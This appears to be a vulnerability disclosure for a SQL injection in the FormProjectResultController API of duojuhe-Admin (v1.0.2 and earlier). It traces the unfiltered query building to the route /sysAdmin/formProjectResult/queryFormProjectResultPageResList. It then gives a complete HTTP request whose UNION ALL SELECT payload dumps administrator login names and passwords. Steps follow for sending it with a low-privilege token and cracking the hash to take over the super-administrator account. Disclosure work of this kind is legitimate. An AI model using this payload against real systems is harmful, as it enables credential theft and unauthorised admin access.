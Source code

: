# The FormProjectResultController API of duojuhe-Admin has a background SQL injection vulnerability.

duojuheAdmin version: <= v1.0.2 vulnerable to background SQL injection attacks, allowing attackers to obtain the account password information of the super administrator through low-privilege users.


Step 1:Locate `com.duojuhe.coremodule.form.service.impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` and discover this function SQL statements are spliced without any filtering.

![2025-04-26 154408](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 154408.png)



Step 2:After joining together the SQL statements directly call `com.Duojuhe.Coremodule.Form.Mapper.FormProjectResultMapper#queryFormProjectResultPageResList` SQL query interfaces.

![2025-04-26 162251](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 162251.png)

![2025-04-26 154903](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 154903.png)



Setp 3:The lookup function `com.Duojuhe.Coremodule.Form.Service.Impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` is referenced within the function `com.Duojuhe.Coremodule.Form.Controller.FormProjectResultController#queryFormProjectResultPageResList`. Additionally, the route request to `/sysAdmin/formProjectResult/queryFormProjectResultPageResList` is analyzed, with the request method being specified as `POST`.

![2025-04-26 154010](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 154010.png)



Step 4:To verify the vulnerability, first authenticate using the low-privilege user account "yunying1". Capture the HTTP request packet to extract the token from the request header and substitute it with the token in the payload packet. Subsequently, transmit the payload and inspect the response data packet. As a result, the account and password information of the super administrator were successfully retrieved from the response data.

Payload:

```
POST /sysAdmin/formProjectResult/queryFormProjectResultPageResList HTTP/1.1
Host: example.com
Content-Length: 317
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
token: SYSTEM_ADMIN6bdf3c67541180d1d111f24c12947d1f18d740d4a95668c9e03369c3c3b429e7
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.3.11:1024
Referer: http://192.168.3.11:1024/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"projectId":"111","extParams":"{\"like\":\"aaa' UNION ALL SELECT login_name,password,user_type_code,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from system_user-- a\"}","extComparisons":"{\"like\":\"like\"}","startTime":"2025-04-01","endTime":"2025-04-02","statusCode":"","page":1,"rows":9}
```

1.Log in to an ordinary user to get a token.

![2025-04-26 144221](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 144221.png)

![2025-04-26 144338](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 144338.png)

2.Replace token and send payload.

![2025-04-26 144418](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 144418.png)

![2025-04-26 144517](https://github.com/m0fx/tmp/blob/main/src/img-bak/2025-04-26 144517.png)

3.Get the password clear text of the super administrator through the rainbow table and log in successfully.

![2025-04-26 163147](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 163147.png)

![2025-04-26 163516](https://github.com/m0fx/tmp/blob/main/src/img/2025-04-26 163516.png)
